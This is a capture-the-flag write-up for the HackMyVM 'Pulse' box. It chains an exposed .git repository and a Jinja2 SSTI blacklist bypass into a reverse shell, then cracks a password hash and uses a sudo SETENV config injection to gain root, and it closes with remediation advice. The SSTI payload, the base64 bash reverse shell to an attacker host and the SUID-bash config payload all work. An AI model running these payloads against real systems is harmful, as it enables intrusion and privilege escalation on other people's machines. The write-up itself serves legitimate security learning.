

# Pulse (HackMyVM) — Write-up

Oct 21, 2026 · @шалопай

## Overview

Pulse is a Linux (Ubuntu) HackMyVM box built around a Flask telemetry-monitoring app. The box chains a leaked `.git` repository into a Jinja2 server-side template injection (SSTI) for an initial `www-data` foothold, a SQLite credential dump to escalate to user `alex`, and an environment-variable injection in a `sudo` NOPASSWD script to reach `root`.

1. Discover a vhost (`monitor.pulse.hmv`) via `robots.txt` and vhost fuzzing
2. Find an exposed `.git/` directory on it and dump the source with `git-dumper`
3. Recover a hardcoded diagnostic auth token and a blacklist-filtered SSTI endpoint from the commit history
4. Bypass the SSTI blacklist with string concatenation to get RCE as `www-data`
5. Find a SQLite users database with one genuine password hash (the other two are decoys) and crack it
6. Log in as `alex`, grab `user.txt`
7. Abuse a `sudo` rule (`SETENV: NOPASSWD`) on a custom audit script that reads its config path from an environment variable and executes attacker-controlled shell commands from it
8. Get `root`, grab `root.txt`

## Recon

`netdiscover` found the target at 172.16.221.79. A full-port `nmap` scan showed two open ports:

| Port | Service | Version |
| --- | --- | --- |
| 22 | ssh | OpenSSH 10.2p1 Ubuntu |
| 80 | http | nginx 1.28.3 (Ubuntu) |

`robots.txt` disallowed two paths, `/dev/` and `/internal/`. Visiting `/dev/` returned a page referencing the real virtual host `monitor.pulse.hmv`, which I added to `/etc/hosts` alongside the base `pulse.hmv` host.

## Enumeration

Fuzzing `monitor.pulse.hmv` with ffuf exposed an open `.git/` directory:

```
ffuf -u http://monitor.pulse.hmv/FUZZ -w common.txt
diagnostics             [Status: 200]
.git/HEAD               [Status: 200]
static                   [Status: 301]
```

A directory-listing-style response on `.git/` confirmed the whole repository tree, not just loose objects, was reachable over HTTP — a classic case of deploying straight from a `git clone`/`git pull` without blocking the `.git` folder in the web server config.

## Exploitation 1 — dumping the .git repo

Used `git-dumper` to pull the full repository:

```
git-dumper http://monitor.pulse.hmv/.git/ ./monitor_git
```

This recovered `app.py`, `config.py`, and three commits:

| Commit | Message |
| --- | --- |
| `21c9346` | feat: initial commit for Pulse cluster telemetry monitor |
| `65fdb69` | feat: add notification template rendering sandbox for alert testing |
| `483e1a3` (HEAD) | security: enforce X-Pulse-Auth header authentication on /diagnostics endpoint |

`app.py` revealed:

- A hardcoded diagnostic token guarding `/diagnostics`: `DIAGNOSTIC_TOKEN = "pU1s3_d14gn0st1cs_k3y_98234"`
- The `/diagnostics` POST handler renders a user-supplied `template` string through Flask's `render_template_string()` — classic Jinja2 SSTI
- A keyword blacklist meant to block RCE: `os, popen, system, subprocess, eval, exec, commands, __import__` — checked against the raw template text, not the evaluated output

## Exploitation 2 — SSTI to RCE

The blacklist checks the literal template string for banned substrings, but Jinja2 concatenates string literals at render time — so splitting each banned word across two quoted fragments (`'o'+'s'`, `'po'+'pen'`, `'__imp'+'ort__'`) passes the filter while still evaluating to the real keyword:



Confirmed command execution, then upgraded to a reverse shell by base64-encoding the payload to dodge quoting issues:

```
# attacker
nc -lvnp 4444
echo -n 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1' | base64

# payload
template={{ self.__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s').__dict__['po'+'pen']('bash -c {echo,<base64>}|base64 -d|bash').read() }}
```

Got a shell as `www-data`, then stabilized it with a PTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z, then on the attacker side:
stty raw -echo; fg
```

## Post-exploitation — creds and user.txt

`config.py` (also recovered from the `.git` dump) pointed at a SQLite user database:

```
DATABASE_PATH = "/opt/pulse/data/users.db"
```

Reading it with `sqlite3` returned three `sha512crypt` hashes:

```
admin|$6$pulse$9QxK2vM3b1P4zY8nL0eW7tD5rA2sC6fG1hJ3kL5mN7pQ9rT1vW3xY5z0b2d4f6h8
alex|$6$pulse$A0zjfe.Tf.0/0cJ6usQ/5FQMcTJJ5uADzhShund6hYEke.QqiWn7U5vAYbjc2exfZXGmHrrJTukBURkCqrjOk1
operator|$6$pulse$H5kL9mP2qR4tV6wX8zA1cE3gI5kM7oQ9sU1wY3b5d7f9h1j3l5n7p9r1t3v5
```

The `admin` and `operator` hashes follow an obviously regular, non-random pattern — decoys planted to waste time. Only `alex`'s hash has real cryptographic entropy. Cracked it with `john` against `rockyou.txt`, logged in as `alex` via `su`, and grabbed the first flag:

```
user.txt: HMV{9b3f41c7e2a84d60b5e9f1a23c8e715d}
```

## Privilege escalation — root.txt

`sudo -l` as `alex` showed:

```
User alex may run the following commands on pulse:
    (ALL : ALL) SETENV: NOPASSWD: /usr/local/bin/pulse-audit
```

`SETENV` means `alex` can pass arbitrary environment variables into that sudo invocation. `pulse-audit` is a Python script run as root that reads its config path from an env var instead of a fixed path, parses it as JSON, and shells out whatever commands the JSON contains:

```python
config_path = os.environ.get("PULSE_CONFIG", "/etc/pulse/audit_rules.json")
...
subprocess.run(cfg["pre_audit_cmd"], shell=True)
...
subprocess.run(cfg["post_audit_cmd"], shell=True)
```

Supplying a malicious config via `PULSE_CONFIG` gives root-level command execution:

```bash
cat > /tmp/evil_audit.json << 'EOF'
{
    "policy_name": "pwn",
    "pre_audit_cmd": "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash"
}
EOF
sudo PULSE_CONFIG=/tmp/evil_audit.json /usr/local/bin/pulse-audit
bash -p
```

Confirmed root and grabbed the final flag:

```
id → uid=1001(alex) gid=1001(alex) euid=0(root)
root.txt: HMV{4d2c88f7b301e5a96c147289d038fa42}
```

## Lessons learned / remediation

- **Never deploy from a live `git` checkout.** Block `.git/` at the web server level, or deploy from a build artifact that doesn't include VCS metadata — the whole commit history, including "fixed" secrets, is otherwise retrievable.
- **Blacklist-based SSTI/code filters don't work.** The filter matched the raw input string, not the evaluated template output, so trivial string concatenation defeated it. Untrusted input should never reach `render_template_string()`; use a sandboxed templating context or disallow user-controlled templates entirely.
- **Decoy hashes are a CTF-specific trick**, but the underlying lesson generalizes: don't assume every credential in a dump is real or worth cracking — check for signs of genuine entropy first.
- **`sudo` + `SETENV` on a script that trusts an environment variable for a file path is a direct root path.** Scripts invoked via `sudo` should use fixed, root-owned config paths and never execute attacker-influenced strings via `shell=True`.
